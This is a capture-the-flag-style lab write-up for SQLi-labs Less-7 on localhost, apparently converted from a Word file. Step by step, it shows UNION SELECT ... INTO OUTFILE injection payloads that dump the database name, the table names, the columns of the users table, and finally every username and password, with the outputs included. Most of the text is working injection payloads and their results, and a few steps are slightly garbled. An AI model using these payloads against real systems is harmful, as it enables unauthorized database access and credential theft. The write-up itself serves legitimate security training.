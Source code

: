 ﻿We start off by giving an id parameter to start off with the injection after which we are greeted with a page that says “You are in…. Use outfile…… “

**PAYLOAD:**”localhost/sqli/Less-7/?id=1”

![](Aspose.Words.bc575bc4-1aae-4150-a934-1fb6223acf00.001.jpeg)

As we can see even though we put any other payload like order by ar union type payload we will still get the same page, now to dump the data we will need to have another file (aka outfile). What we basically have to do is add the outfile function in the payload we have and direct the data to this particular file.

1.“localhost/sqli/Less-7/?id=1')) union all select 1,2,3” 2.“localhost/sqli/Less-7/?id=1')) order by 3”

The page remains unchanged.

![](Aspose.Words.bc575bc4-1aae-4150-a934-1fb6223acf00.002.jpeg)

Now we will modify the payload with the above functionality of outfile

**PAYLOAD:**”localhost/sqli/Less-7/?id=1')) union all select 1,2,3 into outfile "dump.txt/home/rahulkrishnan/Desktop"--+”

![](Aspose.Words.bc575bc4-1aae-4150-a934-1fb6223acf00.003.jpeg)

The output will be now directed to the outfile and printed in it like so



|1|Dumb|Dumb|
| - | - | - |
|1|2|3|
![](Aspose.Words.bc575bc4-1aae-4150-a934-1fb6223acf00.004.jpeg)

We can do the same sql injection functions but the only difference is that the outcome or output will be now redirected and printed into a outfile.

Now we will continue by checking the database that the data is present in. **PAYLOAD:** “localhost/sqli/Less-7/?id=1')) union all select database(),2,3 into outfile "dump.txt/home/rahulkrishnan/Desktop"--+”



|1|Dumb|Dumb|
| - | - | - |
|security|2|3|
![](Aspose.Words.bc575bc4-1aae-4150-a934-1fb6223acf00.005.jpeg)

We will now concat the table names of the database to the outfile using the following payload

**PAYLOAD:** “localhost/sqli/Less-7/?id=1')) union all select group\_concat(table\_name),2,3 into outfile "dump.txt/home/rahulkrishnan/Desktop"--+”

**OUTPUT:**



|1|Dumb|Dumb|
| - | - | - |
|emails,referers,uagents,users|2|3|
![](Aspose.Words.bc575bc4-1aae-4150-a934-1fb6223acf00.006.jpeg)

We will now find the columns that are present in the table users using the following payload **PAYLOAD:** ”<http://localhost/sqli/Less-7/?id=1%27>))%20union%20all%20select%20group\_concat(column\_n ame),2,3%20from%20information\_schema.columns%20where%20table\_name=%22users%22 %20into%20outfile%20%22dump.txt/home/rahulkrishnan/Desktop%22--+”

**OUTPUT:**



|1|Dumb|Dumb|
| - | - | - |
|id,login,password,email,secre t,activated,reset\_code,admin, user\_id,first\_name,last\_name ,user,password,avatar,last\_lo gin,failed\_login,USER,CURR ENT\_CONNECTIONS,TOTA L\_CONNECTIONS,id,userna me,password|2|3|
Now we will concat the username and the password from the columns conceited from above.

![](Aspose.Words.bc575bc4-1aae-4150-a934-1fb6223acf00.007.jpeg)

**PAYLOAD:**

“localhost/sqli/Less-7/?id=1')) union all select group\_concat(username),group\_concat(password),3 from users into outfile "dump.txt/home/rahulkrishnan/Desktop"--+”

**OUTFILE:**



|1|Dumb|Dumb|
| - | - | - |
|Dumb,Angelina,Dummy,secur e,stupid,superman,batman,ad min,admin1,admin2,admin3,d hakkan,admin4|Dumb,I-kill-you,p@ssword,cr appy,stupidity,genious,mob!le ,admin,admin1,admin2,admin 3,dumbo,admin4|3|

